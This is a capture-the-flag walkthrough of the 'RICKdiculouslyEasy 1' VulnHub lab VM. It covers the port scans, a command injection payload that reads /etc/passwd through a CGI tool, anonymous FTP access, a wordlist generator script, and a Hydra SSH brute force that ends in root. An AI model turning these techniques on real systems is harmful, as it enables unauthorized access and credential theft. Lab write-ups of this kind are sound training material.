

## RICKdiculouslyEasy 1 VulnHub VM walkthrough

RICKdiculouslyEasy 1 by https://twitter.com/sayli_ambure

Link: https://www.vulnhub.com/entry/rickdiculouslyeasy-1,207/

```
This is a fedora server vm, created with virtualbox.
It is a very simple Rick and Morty themed boot to root.
There are 130 points worth of flags available (each flag has its points recorded with it), you should also get root.
It's designed to be a beginner ctf, if you're new to pen testing, check it out!
```

## Solution

#### 1. Sudo Netdiscover

> IP address: 192.168.1.10

#### 2. Port scan: Nmap -sC -sV -Pn -A -p- 192.168.1.10


> 21 -> ftp -> vsftpd 3.0.3 -> anonymous

> 22 -> ssh

> 80 -> Apache httpd 2.4.27

> 9090 -> Cockpit webservice
  
> 13337 -> unknown
  
> flag (10 pt) => total 10 points
  
> 22222 -> ssh -> OpenSSH 7.5 (protocol 2.0)
  
> 60000 > unknown

#### 3. Nikto: Nikto -h 192.168.1.10

> Passwords/ directory

> Icons/ directory

#### 4. Browser > http://192.168.1.10/passwords/

> FLAG.txt

> passwords.html

#### 5. Browser > http://192.168.1.10/passwords/FLAG.txt

> Got Flag (10 pt) = total points 20

#### 6. Browser > http://192.168.1.10/passwords.html page source code

> password -> winter

#### 7. Browser > http://192.168.1.10/icons/

> nothing special other than directory listing

#### 8. Browser > http://192.168.1.10/robots.txt

> /cgi-bin/root_shell.cgi

> /cgi-bin/tracertool.cgi

#### 9. Browser > view-source:http://192.168.1.10/cgi-bin/root_shell.cgi

> nothing useful

#### 10. Browser > http://192.168.1.10/cgi-bin/tracertool.cgi


> Vulnerable to command injection

> cat command doesn't work. Can use 'more', 'less','head' or 'tail' instead

#### 11. Payload > ; more /etc/passwd

> Note users 'morty', 'ricksanchez' and 'summer'

#### 12. Ftp 192.168.1.10 > anonymous:anonymous 

> logged in

> ftp://192.168.1.10 -> Flag.txt (10 pt) => total 30 points

#### 13. ssh 192.168.1.10 22

> Not accessible

#### 14. Browser > http://192.168.1.10:9090

> Got flag (10 pt) => total 40 points

#### 15. Try winter password for users found in step 11 via SSH on 22222 port

> Didn't work


> Worked for user 'Summer'

> Got flag (10 pt) => total 50 points

> password for unzipping journal.txt.zip is in safe_password.jpg

> Pull jpg file in host machine

> Got safe password

> Got Flag (20 pt) => total 70 points


> Used flag in journal.txt as argument for safe

> Got next flag (20 pt) => total 90 points

> Got Pattern for RickSanchez password

#### 16. Create python script for all possible password combinations using the clue to feed Hydra:
```
def main():
    LETTERS = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ'
    DIGITS = '0123456789'
    BAND_WORDS = ['The', 'Flesh', 'Curtains']
    with open('rickpwd.txt', 'w') as f:
        for letter in LETTERS:
            for digit in DIGITS:
                for word in BAND_WORDS:
                    f.write('{}{}{}\n'.format(letter, digit, word))
        f.flush()
if __name__ == '__main__':
    main()
```
> rickpwd.txt created

#### 17. Hydra -l RickSanchez -P rickpwd.txt 192.168.1.10 ssh -s 22222

> Password for RickSanchez user > P7Curtains

#### 18. ssh RickSanchez@192.168.1.10 -p 22222


> Got root and Flag (30 pt) => total 120 points

#### 19. Analyzing remaining ports: telnet 192.168.1.10 13337

> Flag already found

#### 20. nc 192.168.1.10 60000

> Got Flag (10 pt) => total 130 points

> Got all 130/130 points and owned root.
